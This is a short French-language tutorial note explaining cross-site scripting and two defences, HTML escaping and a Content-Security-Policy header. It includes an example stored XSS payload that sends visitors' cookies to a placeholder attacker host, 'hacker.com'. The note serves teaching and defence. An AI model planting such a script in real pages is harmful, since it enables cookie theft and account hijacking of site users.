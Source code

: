 # XSS

---

Une attaque XSS consiste à injecter du code **JavaScript** dans une page web.

## Fonctionnement de l'attaque

1. Un attaquant poste ce commentaire sur un site :

```html
<script>
  document.location = "http://hacker.com?cookie=" + document.cookie;
</script>
```

2. Tous les utilisateurs qui visitent la page **envoient leurs cookies au pirate**.

## Protection contre le XSS

- Échapper les entrées utilisateur :

```html
&lt;script&gt;alert("hello");&lt;/script&gt;
```

- Utiliser le Content Security Policy (CSP) :

```html
Content-Security-Policy : script-src 'self'
```
